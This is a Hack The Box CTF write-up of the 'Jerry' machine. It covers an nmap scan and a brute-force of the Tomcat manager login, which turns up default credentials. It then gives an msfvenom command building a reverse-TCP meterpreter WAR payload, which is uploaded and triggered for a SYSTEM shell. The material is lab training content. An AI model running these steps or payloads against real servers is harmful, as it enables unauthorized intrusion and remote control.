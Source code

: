```yaml
---
title: HTB - Jerry writeup
date: 2023-04-02
categories: [ctf, htb, writeup]
tags: [ctf, htb, writeup]
author: cha0s
---
```

# Machine info
---
Name: Jerry
OS: Windows
Dificulty: Easy
[link](https://app.hackthebox.com/machines/144)

---

# Initial recon
---
As always i've started with nmap, and for my surprise, only a single port open

```bash
cha0s@vm:~/ctf/htb/jerry$ nmap -A -p- -T4 --min-rate=500 -Pn 10.10.10.95
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-02 11:19 -03
Nmap scan report for 10.10.10.95
Host is up (0.13s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-title: Apache Tomcat/7.0.88
|_http-server-header: Apache-Coyote/1.1
|_http-favicon: Apache Tomcat

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 182.44 seconds
```

An apache tomcat instance, just like a "default installation"

![apache tomcat](/assets/img/jerry/Pasted+image+20240402125101.png)
_not the actual box screenshot cause i forgot to take it💀_
# Tomcat enumeration
---

Without further thinking, i fired metasploit and runned the `auxiliary/scanner/http/tomcat_mgr_login` module

![[/assets/img/jerry/Pasted image 20240402113416.png]]

After a few minutes of bruteforce we found:
	`tomcat:s3cret`
Now we have a login for tomcat's manager gui. 
# Exploitation
--- 
Now, we need to get a shell. Since we already inside tomcat webapp as an admin, we can abuse the upload feature to upload an malicious .war file that will allow us to get a reverse shell.

First we create a .war payload using msfvenom. Apart from looking at the machine info and knowing its a windows, we could simply go at the "show status", page and figure out it's a windows server 2012 machine.

To create the payload we use:
`msfvenom -p windows/meterpreter/reverse_tcp lhost=<your Tun0> lport=4444 -f war -o xp.war`
![[Pasted image 20240402114516.png]]

Note that i've unziped the .war, that's because we won't get a shell by simply uploading, we also need to run the malicious jsp

Then, we can upload it on tomcat manager gui

![[/assets/img/jerry/Pasted image 20240402114540.png]]

![[/assets/img/jerry/Pasted image 20240402114551.png]]
_file uploaded successfully!_

Then visit the page with the file we early extracted

![[/assets/img/jerry/Pasted image 20240402114612.png]]

And, we get a shell!!!
 
![[/assets/img/jerry/Pasted image 20240402114657.png]]
![[/assets/img/jerry/Pasted image 20240402114720.png]]
# Post exploitation
---

After that we start to gather some information about the machine and for my surprise...

![[/assets/img/jerry/Pasted image 20240402114814.png]]

We are already the highest windows privileged account.

So i head to the administrator desktop (default location for flags)

![[/assets/img/jerry/Pasted image 20240402114857.png]]

And enjoy my 2 flags for the price of one 😋

---

Hope you enjoyed the writeup.
Never stop hacking! 👨‍💻